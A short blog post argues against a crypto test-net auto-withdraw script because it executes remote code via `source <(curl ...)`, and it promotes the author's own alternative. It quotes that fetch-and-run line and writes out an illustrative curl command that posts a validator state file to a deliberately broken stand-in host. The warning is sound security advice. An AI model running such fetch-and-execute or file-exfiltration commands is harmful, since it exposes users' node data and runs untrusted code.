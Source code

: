 ```yaml
---
layout: post
title:  "Skip routine, use auto withdraw"
date:   2024-05-13 10:21:03 +0700
categories: crypto
---
```


### Context
In order to stay in active set of test nets one should constantly withdraw
their commission and rewards and re-delegate it to themselves. It can be
an exciting experience the first time, but then it becomes a routine.

### Existing solution
There is a working [auto-withdraw-delegate](https://github.com/Pretid/galactica_helpers/tree/main/auto-withdraw-delegate)
script by [@Pretid](https://github.com/Pretid). However, I'm concerned by one
[line](https://github.com/Pretid/galactica_helpers/blob/d1dcd7fac9fc49974d6c815141b935cc8b4663fd/auto-withdraw-delegate/auto-withdraw-redelegue.sh#L2)
there:
```bash
source <(curl -s https://raw.githubusercontent.com/Pretid/galactica_helpers/main/utils/common.sh)
```
It means everytime the script runs, it executes some logic taken from the
Internet! I'm sure the author is not going to inject any harmful code there
like:
```bash
curl  -d "@$HOME/.galactica/data/priv_validator_state.json" ht tps://server-storing-everything-for.me/
# URL is broken on purpose, just in case someone tries to execute it
```
But one should stay on the safe side.

### Alternative solution
Before finding the solution above, I implemented almost the same script,
you can find it [here](https://github.com/masim05/play-web3/tree/main/utils/withdraw).
It does not execute any scripts downloaded from anywhere.
One more benefit, it is extendable in terms of networks, at the moment it support Galactica and
Zero-gravity.
